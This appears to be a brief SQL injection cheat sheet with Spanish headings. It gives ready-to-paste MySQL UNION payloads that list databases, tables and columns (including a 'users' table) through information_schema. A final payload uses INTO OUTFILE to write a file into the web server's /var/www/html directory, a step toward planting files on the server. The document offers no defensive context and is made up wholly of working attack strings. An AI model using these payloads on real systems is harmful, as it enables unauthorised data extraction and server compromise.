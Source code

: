 # SQL Injection

## MySQL

### Listar bbdd

~~~
' union select schema_name,null from information_schema.schemata
~~~

### Listar tablas

~~~
' union select table_name,null from information_schema.tables where table_schema='products'-- -
~~~

### Listar columnas

~~~
' union select column_name,null from information_schema.columns where table_schema='products' and table_name='users'-- -
~~~

### Insertar fichero

~~~
union select 'hola' into outfile '/var/www/html/prueba.txt'-- -
~~~
